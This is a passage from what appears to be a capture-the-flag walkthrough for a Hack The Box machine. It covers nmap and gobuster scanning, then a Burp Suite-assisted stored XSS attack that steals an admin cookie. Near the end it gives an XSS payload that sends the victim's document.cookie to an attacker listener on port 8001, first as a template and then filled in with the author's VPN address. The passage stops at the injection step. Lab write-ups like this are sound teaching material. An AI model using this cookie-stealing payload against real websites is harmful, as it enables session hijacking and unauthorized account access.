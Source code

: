 Start pinging the target IP:

```
ping 10.10.11.8
```

You will get response outcome meaning that the server is active. Let's start with an nmap scap to see what ports are opened and which information can be retrieved.

```
nmap -sC -sV 10.10.11.8 -oN output_nmap.txt
```

This command returns the output of nmap into `output_nmap.txt`file.

`-sC`: Default Script Scan. Runs a set of standard nmap scripts at the target host (Checking for open proxy servers, identifying HTTP servers, detecting SSL/TLS certificate details... etc). This command adds depth to the scan by running various scripts that can uncover additional information and potential vulnerabilities.

`-sV`: Version Detection. Probes open ports to determine what service and version is running on them. It sends various probes to the open ports and analyzing the responses (e.g., Identifying application and version running on each open port). It ensures you get accurate service and version information for the open ports, which can be crucial for identifying specific vulnerabilities and understanding the network environment better.
Concatenating `-sC` and `-sV` in `nmap` scans is a common practice because it provides a detailed analysis of the target.

The summary of the outcome is the following:

1. Host IP: `10.10.11.8`
2. Open ports:
   a. 22/tcp: SSH (OpenSSH 9.2p1)
   b. 5000/tcp: Web server
3. Operating System: Linux

The outcome shows that the open SSH service on port 22 and the web server on port 5000 might be targets for further investigation or exploitation.

![Alt text](nmap_headless.png)

As there is a webserver host. The most interesting way is to access from a browser `http://10.10.11.8:5000`. It automatically redirects to `http://10.10.11.8:5000/support`. We observe that the site is reachable and contains a form to send. Usually forms are good infection points which attackers can leverage to bypass systems or interact with them.

(pic2)
(pic3)

Instead of trying common scripts in javascript to interact with the website and make them vulnerable. Let's scan what this domain has to offer. There is a famous tool in Kali Linux called `Gobuster`.

`Gobuster` is a tool for brute-forcing directories, files, DNS subdomains and virtual hosts. It is commonly used in pentesting to discover hidden resources on a web server that might not be immediately visible through normal browsing or standard `web crawlers`. To install it type: `sudo apt install gobuster`. Then run the following command:
```
gobuster dir -u http://10.10.11.8:5000 -w /usr/share/wordlists/dirb/big.txt
```
gobuster uses the `dir` flag to scan for directories on the `-u` (url flag) on the domain specified using the `-w` worldlist flag located in `/usr/.../big.txt`. It can be observed that there are two available URLs `/dashboard` (Status:500, , i.e., Internal Server Error) and `/support` (Status: 200, i.e., OK). Our URL of interest is `/dashboard`. The reason why it isn't accessible can be because server configuration errors, resource limits... the most plausible situation is permission issues. It is highly likely that we don't have persmissions to access such URL so let's dig more into it.

(pic4)
(pic5)

So to access `http://10.10.11.8:5000/dashboard`we need to be able to login or have admin privileges. A good way to login is to find a login page (and use brute force for example or any additional hits in such login page). Nonetheless, we only have a non-accessible URL. There must be a way to bypass the server and make them think that we are authorized to access the URL. A good way to bypass/trick the server is to give an admin cookie or session id. The differences between admin cookie and session id can be seen in the following URL:
https://www.tutorialspoint.com/What-is-the-difference-between-session-and-cookies#:~:text=Cookies%20are%20client-side%20files,files%20that%20store%20user%20information.&text=Cookies%20expire%20after%20the%20user,logs%20out%20of%20the%20program.

(pic6)

How can an admin cookie be obtained? A good way to obtain admin cookies is to use a XSS-steal cookie technique. An example can be found in the following URL:
https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e

Cross-Site Scripting (XSS) is a vulnerability that allows an attacker to inject malicious scripts into web pages. These scripts can run in the context of the victim's browser and can be used for a variety of malicious activities, including stealing cookies. Cookies often store session tokens and other sensitive information, and stealing them can allow an attacker to hijack a user's session, gaining unauthorized access to their account. So that's what we want to access the unauthorized URL `/dashboard`. When an XSS vulnerability is present on a website, an attacker can inject a script that reads the user's cookies and sends them to the attacker’s server. The attacker can then use these cookies to impersonate the user.

For this attack we need the following ingredients:

1. Setting up a server
2. Configure Burp-suite scanner
3. Inject the malicious code

##### 1. Setting up the server

The purpose of this step is to set up a server to receive the stolen cookie. Use a basic HTTP server on port 8001 that will log incoming requests. The server listens for incoming HTTP requests. In this attack, it will receive requests containing the victim's cookies. Type in a new CLI:

```
python3 -m http.server 8001
```

(pic7)

##### 2. Configure Burp-suite scanner

Open Burp-suite scanner. Click on "Temporary project in memory", "Next", "Use Burp defaults", "Start Burp". Click on `Proxy` tab, then on ìntercept is off` to set it on. You will have an outcome as follows:

(pic10)

Click on "Open browser". A browser will appear on your left. This explorer is designed to interact with Burp-suite so we will use it for the XSS.

(pic11)

Type in the search bar `http://10.10.11.8:5000/support`. You will observe that the page is freezed. This is because Burp-suite is not allowing the packets to continue. To land in the URL click on "Forward" button.

(pic12)

You will see that the URL is reached. Introduce some random data into the webpage. Submit. Check the outcome on the right-hand side. That's all the packet information. Right-click on the packet information and select "send to repeater" so we will be able to try multiple things without recatch the packets each time. Now time to inject the payload. 

```
<script>var i=new Image(); i.src="http://{IP}:{port}/?cookie="+btoa(document.cookie);</script>
```

Observe the terms `{IP}:{port}`in the previous command line (CL). The CL is generic and won't work. You have to find your IP address and use the port of the server built in step 1. To know your IP address type in a new terminal `ifconfig` and you must see your personal IP and the IP assigned to your HTB VPN. The IP from the VPN is the one you have to use. In my situation is `10.10.14.108` so my XSS injection is `<script>var i=new Image(); i.src="http://10.10.14.108:8001/?cookie="+btoa(document.cookie);</script>`.
